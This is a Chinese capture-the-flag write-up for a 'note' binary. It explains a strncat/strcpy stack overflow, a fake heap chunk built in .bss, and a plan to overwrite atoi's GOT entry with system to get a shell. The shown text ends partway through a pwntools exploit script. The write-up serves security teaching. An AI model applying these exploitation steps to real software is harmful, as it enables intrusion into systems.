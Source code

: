           case 5:
            puts("Bye~");
            exit(0);
            return;
          case 6:
            exit(0);
            return;
          default:
            continue;
        }
      }
    }
漏洞点在于edit函数：

      strncat(&dest, addr_of_new_chunk + 15, 0xFFFFFFFFFFFFFFFFLL);// buffer overflow
      strcpy(ori_chunk_addr, &dest);
      free(addr_of_new_chunk);

可以看到在对dest进行strncat函数时，字符个数为FFFFFF，再次运行strcpy时会导致栈溢出，从而控制栈中参数
查看当前函数堆栈：
00000000000000D0 dest            dq ?                    ; offset
.
.
.
-0000000000000050 addr_of_new_chunk dq ?
这里可以看到，dest与addr_of_new_chunk的栈内地址相差0x80，我们可以对此地址进行控制，而后调用free函数再次申请则可以实现对目标地址的读写。
下一步我们要考虑伪造堆块，我们现在想要改写的地址是atoi函数的got表信息将其替换成system，atoi函数的地址可以查询（ida），于是我们考虑在存储堆地址信息的数组中构造堆块
（在这里为什么不直接写got表的原因是在got表附近我们不能直接构造出伪造的堆块，再次申请不能确定能够申请到伪造堆块进行改写）
存储信息的数组存储在bss段，在程序的开头我们可以发现在输入名字和地址时两者的信息存储在bss段，ida查看可知一下结构关系：
.bss:00000000006020E0 name            db    ? ;    
.
.
.
.bss:0000000000602120 ; char *base_of_heap_addr_list
于是我们可以构造大小为 0x30*padding+fake_chunk_head这样的名字来构造伪造堆块，并且在address处写入伪造的堆块头，绕过检查
这样再次申请内存就可以改写堆的地址，从而改写got表进而执行shell
exp：

    from pwn import *
    context.log_level = 'debug'
    p=process('./note')
    libc=ELF('/libc.so.6')
    
    def newnote(length,x):
        p.recvuntil('--->>')
        p.sendline('1')
        p.recvuntil(':')
        p.sendline(str(length))
        p.recvuntil(':')
        p.sendline(x)
    
    def editnote_append(id,x):
        p.recvuntil('--->>')
        p.sendline('3')
        p.recvuntil('id')
        p.sendline(str(id))
        p.recvuntil('append')
        p.sendline('2')
        p.recvuntil(':')
        p.sendline(x)
    